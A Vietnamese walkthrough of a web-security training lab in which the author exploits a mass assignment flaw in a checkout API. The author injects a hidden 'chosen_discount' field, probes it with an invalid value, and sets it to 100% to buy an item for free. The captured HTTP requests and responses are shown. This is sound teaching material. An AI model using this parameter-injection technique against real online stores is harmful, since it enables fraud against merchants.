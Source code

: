 # **Lab: Exploiting a mass assignment vulnerability**

> To solve the lab, find and exploit a mass assignment vulnerability to buy a `Lightweight l33t Leather Jacket`. You can log in to your own account using the following credentials: `wiener:peter`.  

# **Solution**

Sau khi truy cập web, thử `View details` sản phẩm. Ta thấy không có lộ api nào liên quan đến sản phẩm.

Đăng nhập bằng tài khoản `wiener:peter`.

Sau khi thấy các chức năng cơ bản bao gồm `Update email` không có gì để khai thác, quay lại trang sản phẩm để thêm 1 sản phẩm vào giỏ hảng thực hiện thanh toán.

Sau khi thực hiện thanh toán, và tất nhiên là không thành công vì ta không có tiền trong tài khoản :v

Quan sát luồng request và các response của nó. Ta thây có 2 request cùng tới URL là `/api/checkout` với 2 method khác nhau là GET và POST.

Và ta cũng thấy được GET là request gửi đi yêu cầu danh sách sản phẩm đã thêm giỏ hàng và các discount đã chọn.  
Trong khi đó POST gửi đi khi để gửi nhưng thông tin bao gồm sản phẩm chọn để thanh toán, bao gồm số lượng.

```
# GET response
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Content-Length: 153

{
    "chosen_discount": {
        "percentage":0
        },
    "chosen_products": [
        {
            "product_id":"1", 
            "name":"Lightweight \"l33t\" Leather Jacket",
            "quantity":1,
            "item_price":133700
        }
    ]
}
```

```
# POST request
POST /api/checkout HTTP/2
Host: 0a12004c033b1baf823c741700f40008.web-security-academy.net
Cookie: session=0CZcAMTiz7uCussq5vWGqUKXejRRKbPv
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a12004c033b1baf823c741700f40008.web-security-academy.net/cart
Content-Type: text/plain;charset=UTF-8
Content-Length: 53
Origin: https://0a12004c033b1baf823c741700f40008.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

{
    "chosen_products":[
        {
            "product_id":"1",
            "quantity":1
        }
    ]
}
```

Okey, ta thấy phần JSON của GET response có thêm `"chosen_discount"`.

Ta thử thêm nó vào JSON của POST request.

```
{"chosen_discount":{"percentage":0},"chosen_products":[{"product_id":"1","quantity":1}]}
```

Ta thấy response trả về không khác gì so với response ban đầu.

Giờ sửa giá trị 0 thành một giá trị khác không phải số nguyên.

Nếu nó được xử lý thì nó sẽ xảy ra lỗi. Nếu không thì sẽ giống response gốc.

```
{"chosen_discount":{"percentage":"x"},"chosen_products":[{"product_id":"1","quantity":1}]}
```

```
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Content-Length: 82

{"error":"Key order: Key chosen_discount: Key percentage: string is not a number"}
```

Perfect!! Ta thấy được nó có thông báo lỗi rõ ràng kiểu dữ liệu string là không hợp lệ. Đồng nghĩa với việc request của chúng ta được xử lý như một request chính cống.  

Giờ thì thay đổi giá trị cho hợp lệ nào. `chosen_discount` là mã giảm giá đã chọn, thì `percentage` của nó có thể là % được khuyến mãi. Đẩy lên 100 xem sao.

```
{"chosen_discount":{"percentage":100},"chosen_products":[{"product_id":"1","quantity":1}]}
```

```
HTTP/2 201 Created
Location: /cart/order-confirmation?order-confirmed=true
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

Tốt rồi, response giống y như chưa từng thay đổi. Quay lại trình duyệt kiểm tra xem.

Yee, reload là thấy lab solved:)

![image](https://steamuserimages-a.akamaihd.net/ugc/1667980019599930485/F57B5D6531681D2C2CB8090EBA30F734F1412017/?imw=637&imh=358&ima=fit&impolicy=Letterbox&imcolor=%23000000&letterbox=true)